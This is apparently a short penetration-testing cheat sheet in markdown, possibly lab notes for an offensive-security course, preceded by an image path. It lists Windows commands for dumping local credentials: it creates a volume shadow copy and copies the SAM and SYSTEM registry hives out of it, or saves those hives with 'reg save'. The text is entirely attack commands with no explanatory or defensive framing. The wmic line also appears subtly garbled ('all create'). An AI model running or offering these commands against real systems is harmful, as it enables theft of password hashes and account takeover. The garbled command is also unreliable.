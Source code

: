 # Create shadowcopy
```
wmic shadowcopy all create Volume='C:\'
vssadmin list shadows
```
# Copy files
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
```
## Or
```
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```
